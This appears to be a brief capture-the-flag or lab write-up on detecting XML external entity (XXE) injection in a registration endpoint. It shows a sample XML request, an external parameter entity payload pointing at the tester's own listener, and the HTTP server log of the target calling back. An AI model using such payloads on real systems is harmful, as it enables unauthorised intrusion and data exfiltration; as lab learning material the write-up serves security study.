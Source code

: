 # XXE

Example of an xml file that is passed to backend
```
<?xml version="1.0" encoding="UTF-8"?>
<root>
  <method>POST</method>
  <uri>/auth/register</uri>
  <user>
    <username>username_value</username>
    <password>password_value</password>
  </user>
</root>
```

We can check for XXE vuln by declaring the following entity inside the <xml>
```
<!DOCTYPE test [ 
<!ENTITY % xxe SYSTEM "http://10.10.16.8"> 
%xxe;
]>
```
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.192 - - [12/May/2023 12:35:19] "GET / HTTP/1.1" 200 -
```
